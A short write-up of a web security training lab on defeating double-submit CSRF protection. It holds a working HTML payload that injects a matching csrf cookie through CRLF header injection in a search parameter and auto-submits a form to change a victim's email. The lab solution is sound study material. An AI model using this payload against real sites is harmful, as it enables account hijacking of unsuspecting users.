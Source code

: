 # Practitioner Lab 82 : CSRF where token is duplicated in cookie

---

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

![Untitled](Practitioner%20Lab%2082%20CSRF%20where%20token%20is%20duplicated%2003f1a8e4e65b4bbca6feb2bf1d78d649/Untitled.png)

as can be seen the csrf token is the same as the cookie csrf token, Now i will try to use an invalid one to see if it works.

I changed the token and the cookie to the same and it worked. Now in my payload I know that i don’t need a valid CSRF I just need the cookie and the csrf to match.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4a00f804b46a7680c0173000bb0039.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="newemail&#64;me" />
      <input type="hidden" name="csrf" value="ByyAPqxsCY0vVemspwFTgFPn3f9R3him" />
      <input type="submit" value="Submit request" />
    </form>
  
  <img src="https://0a4a00f804b46a7680c0173000bb0039.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=ByyAPqxsCY0vVemspwFTgFPn3f9R3him%3b%20SameSite=None" onerror="document.forms[0].submit()">
      

  </body>
</html>
```

This solved the lab.